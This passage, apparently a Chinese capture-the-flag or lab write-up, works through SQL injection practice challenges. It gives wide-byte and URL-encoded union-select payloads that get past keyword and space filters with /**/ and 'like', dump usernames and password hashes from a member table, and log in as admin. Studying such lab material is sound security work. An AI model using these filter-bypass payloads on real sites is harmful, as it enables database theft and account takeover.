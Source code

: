 ```plain
http://124.70.71.251:45378/new_list.php?id=1%df' and 1=2 union select 1,2,(select group_concat(name,password,status) from mozhe_discuz_stormgroup.stormgroup_member),4,5--+
```

> 这里用十六进制会报错，不知道是不是因为MariaDB语法不允许还是太长了。
>

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757406773664-6fab7059-6aa1-4533-b1da-be87824093c7.png)

选取`status=1`的密码进行md5解密，就可以成功登录拿到KEY。

# <font style="color:rgb(51, 51, 51);">SQL过滤字符后手工注入漏洞测试(第1题)</font>
本题仍然是经典环境，进入通知页面后加单引号测试，页面空白，说明存在注入：

```plain
http://124.70.71.251:45677/new_list.php?id=1%27
```

构造`?id=1 and 1=1`和`?id=1 and 1=2`的payload，发现页面会重新跳转到`?id=1`，怀疑`and`这些词被过滤，考虑绕过。大小写绕过不好使，尝试URL编码绕过也不好使，尝试对空格用`/**/`进行替换，等号用`like`进行替换，再进行URL编码（不知道咋想到的...）：

```plain
http://124.70.71.251:45677/new_list.php?id=%31%2f%2a%2a%2f%61%6e%64%2f%2a%2a%2f%31%2f%2a%2a%2f%6c%69%6b%65%2f%2a%2a%2f%31
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757408557836-9aa76d69-77db-49cc-99b1-133113a47075.png)成功绕过。接下来的思路都是一样的，`order by`探测字段列数，`union select`确定回显列，获取数据库库名、表名、字段名、字段内容：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757408974678-34039f64-6ee3-475a-a811-04a83975bb7d.png)

选取`status=1`的账号admin及其对应的密码（需md5解密）进行登录，即可获得KEY。

# <font style="color:rgb(51, 51, 51);">SQL过滤字符后手工注入漏洞测试(第2题)</font>
本题仍然是经典环境，进入通知页面后加单引号测试，页面无法显示，说明存在注入：

```plain
http://124.70.71.251:45677/new_list.php?id=1%27
```

构造`?id=1 and 1=1`和`?id=1 and 1=2`的payload，会进入error页面：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757409252347-382a3e91-350c-4580-adbc-de6bdcf392ba.png)

猜测是`and`或者空格被过滤，考虑绕过。尝试对空格用`/**/`进行替换：

```plain
http://124.70.71.251:45677/new_list.php?id=%31%2f%2a%2a%2f%61%6e%64%2f%2a%2a%2f%31%3d%31
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757409523298-9cc3dda2-3489-4f97-aa92-b38de996310a.png)

接下来思路和上一题是一样的。
